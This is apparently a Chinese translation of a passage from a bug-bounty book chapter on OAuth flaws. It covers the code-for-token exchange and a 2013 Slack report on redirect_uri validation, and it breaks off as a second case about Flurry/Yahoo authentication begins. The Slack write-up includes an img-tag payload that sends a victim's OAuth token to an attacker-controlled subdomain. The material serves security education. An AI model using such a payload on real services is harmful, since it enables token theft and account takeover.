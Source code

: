 然而，如果 Facebook 返回的是代码而不是访问令牌，Quora 需要用该代码换取访问令牌以从资源服务器查询信息。这个过程是在客户端和资源服务器之间完成的，不涉及资源拥有者的浏览器。为了获得令牌，客户端向资源服务器发出 HTTP 请求，其中包含三个 URL 参数：访问 *code*，*client_id* 和 *client_secret*。访问 *code* 是通过 302 HTTP 重定向从资源服务器返回的值。*client_secret* 是一个应由客户端保密的值。它是在应用程序配置时由资源服务器生成，并分配 *client_id*。

最后，一旦资源服务器接收到带有 *client_secret*、*client_id* 和访问 *code* 的客户端请求，它会验证这些值并返回 *access_token* 给客户端。在此阶段，客户端可以查询资源服务器以获取关于资源拥有者的信息，OAuth 过程也就完成了。一旦你批准了资源服务器访问你的信息，下一次使用 Facebook 登录客户端时，OAuth 验证过程通常会在后台进行。除非你监控 HTTP 请求，否则你不会看到任何这种交互。客户端可以更改此默认行为，要求资源拥有者重新认证并批准权限范围；不过，这种情况非常罕见。

OAuth 漏洞的严重性取决于与被窃取的令牌相关联的权限范围，如下文示例所示。

### **窃取 Slack OAuth 令牌**

**难度：** 低

**URL：** *[`slack.com/oauth/authorize/`](https://slack.com/oauth/authorize/)*

**来源：** *[`hackerone.com/reports/2575/`](http://hackerone.com/reports/2575/)*

**报告日期：** 2013 年 3 月 1 日

**悬赏金额：** $100

一种常见的 OAuth 漏洞发生在开发者错误地配置或比较允许的 *redirect_uri* 参数时，这使得攻击者可以窃取 OAuth 令牌。在 2013 年 3 月，Prakhar Prasad 就在 Slack 的 OAuth 实现中发现了这一点。Prasad 通知了 Slack，表示他可以通过将任意内容附加到一个白名单中的 *redirect_uri* 来绕过他们的 *redirect_uri* 限制。换句话说，Slack 仅验证了 *redirect_uri* 参数的开头部分。如果开发者在 Slack 注册了一个新应用并将 *https://www.<example>.com* 加入白名单，那么攻击者就可以将一个值附加到 URL 中，从而导致重定向发生到一个不期望的位置。例如，修改 URL 使其传递 *redirect_uri=https://<attacker>.com* 会被拒绝，但传递 *redirect_uri=https://www.<example>.com.mx* 则会被接受。

要利用这种行为，攻击者只需要在其恶意网站上创建一个匹配的子域名。如果目标用户访问了恶意修改过的 URL，Slack 会将 OAuth 令牌发送到攻击者的网站。攻击者可以通过在恶意网页中嵌入 `<img>` 标签来代表目标用户发起请求，例如 `<img src=https://slack.com/oauth/authorize?response_type=token&client_id=APP_ID&redirect_uri=https://www.`example`.com.`attacker`.com>`。使用 `<img>` 标签在渲染时会自动发起一个 HTTP `GET` 请求。

#### ***要点***

在 *redirect_uri* 没有严格检查的情况下的漏洞是常见的 OAuth 配置错误。有时，这种漏洞是因为一个应用程序将一个域名（如 **.<example>.com*）注册为可接受的 *redirect_uri*。其他时候，这个漏洞是由于资源服务器没有严格检查 *redirect_uri* 参数的开头和结尾部分导致的。在这个例子中，是后者。当你在寻找 OAuth 漏洞时，一定要测试任何表明正在使用重定向的参数。

### **使用默认密码通过身份验证**

**难度：** 低

**网址：** *https://flurry.com/auth/v1/account/*

**来源：** *[`lightningsecurity.io/blog/password-not-provided/`](https://lightningsecurity.io/blog/password-not-provided/)*

**报告日期：** 2017 年 6 月 30 日

**悬赏金额：** 未公开

查找 OAuth 实现中的漏洞需要审查整个身份验证过程，从头到尾。这包括识别那些不属于标准化过程的 HTTP 请求。这些请求通常表明开发者已经定制了该过程，并可能引入了漏洞。Jack Cable 就是在 2017 年 6 月发现了这种情况，当时他查看了 Yahoo 的漏洞赏金计划。

雅虎的奖励计划包括分析网站 *[Flurry.com](http://Flurry.com)*。为了开始测试，Cable 使用他的 *@yahoo.com* 电子邮件地址通过雅虎的 OAuth 实现注册了一个 Flurry 账户。Flurry 和雅虎交换了 OAuth 令牌后，向 Flurry 发送的最终 `POST` 请求如下：

```
POST /auth/v1/account HTTP/1.1

Host: auth.flurry.com

Connection: close

Content-Length: 205

Content-Type: application/vnd.api+json

DNT: 1

Referer: https://login.flurry.com/signup

Accept-Language: en-US,en;q=0.8,la;q=0.6
```